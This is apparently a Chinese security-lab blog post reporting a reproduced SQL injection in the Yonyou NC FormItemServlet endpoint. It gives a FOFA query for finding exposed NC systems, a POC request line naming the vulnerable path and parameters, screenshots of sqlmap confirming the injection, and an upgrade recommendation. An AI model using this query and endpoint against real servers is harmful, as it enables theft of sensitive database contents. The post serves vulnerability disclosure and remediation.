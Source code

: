 #  【已复现】用友NC FormItemServlet方法存在SQL注入漏洞  
原创 zz  星络安全实验室   2025-07-13 17:27  
  
<table><tbody><tr><td data-colwidth="576"><section><span style="color: rgba(0, 0, 0, 0.9);font-family: &#34;PingFang SC&#34;, system-ui, -apple-system, BlinkMacSystemFont, &#34;Helvetica Neue&#34;, &#34;Hiragino Sans GB&#34;, &#34;Microsoft YaHei UI&#34;, &#34;Microsoft YaHei&#34;, Arial, sans-serif;font-size: 16px;font-style: normal;font-variant-ligatures: normal;font-variant-caps: normal;font-weight: 400;letter-spacing: 0.544px;orphans: 2;text-align: justify;text-indent: 0px;text-transform: none;widows: 2;word-spacing: 0px;-webkit-text-stroke-width: 0px;background-color: rgb(255, 255, 255);text-decoration-thickness: initial;text-decoration-style: initial;text-decoration-color: initial;display: inline !important;float: none;" data-pm-slice="0 0 []"><span leaf="">免责声明:文章中涉及的漏洞均已修复，敏感信息均已做打码处理，文章仅做经验分享用途，未授权的攻击属于非法行为!文章中敏感信息均已做多层打码处理。传播、利用本文章所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责作者不为此承担任何责任，一旦造成后果请自行负责</span></span></section></td></tr></tbody></table>  
  
漏洞详情：  
  
用友NC系统FormItemServlet方法存在SQL注入漏洞，攻击者可获取数据库敏感信息  
  
漏洞复现：  
  
fofa：  
```
app="用友-UFIDA-NC"
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ZxIkWliazrVcyeMicaUgQRibicdI4CCkWlFsUOjQibXFL0M6ibqMQcRDIHUqkXeGmTmvwxpXdnzSc4lI9wVqRlC2Vaibg/640?wx_fmt=png&from=appmsg "")  
  
  
poc：  
```
POST /portal/pt/servlet/getFormItem/doPost?pageId=login&clazz=nc.uap.wfm.vo.base.ProDefBaseVO&proDefPk=1 HTTP/1.1
```  
  
使用sqlmap验证注入：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ZxIkWliazrVcyeMicaUgQRibicdI4CCkWlFsao3WRuuYBqRTA1ibDicUELPGTCqntwHfoloEddTEXsc8SXYmoj1WKPSA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/ZxIkWliazrVcyeMicaUgQRibicdI4CCkWlFsb0JpcWPYFhkOVLNr1Humw4Z9yLGGdbzuNCtRuwnovpy5niaicalglVUw/640?wx_fmt=png&from=appmsg "")  
  
复现成功  
  
修复意见：  
  
关注厂商动态，升级至安全版本  
  
  
  

